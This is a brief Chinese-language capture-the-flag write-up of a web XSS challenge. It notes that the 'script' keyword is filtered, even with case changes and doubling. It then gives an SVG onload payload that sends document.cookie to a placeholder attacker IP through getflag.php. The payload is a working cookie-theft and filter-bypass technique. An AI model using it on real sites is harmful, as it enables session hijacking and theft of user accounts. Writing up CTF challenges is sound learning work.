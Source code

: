 # web
![](vx_images/292487701816658.png)
script字符无法使用,大小写,双写都不行
尝试使用其他标签image a svg
```
<svg onload="location.href='http://xx.xx.xx.xx/getflag.php?cookie='+document.cookie"/>
```
![](vx_images/86555742051757.png)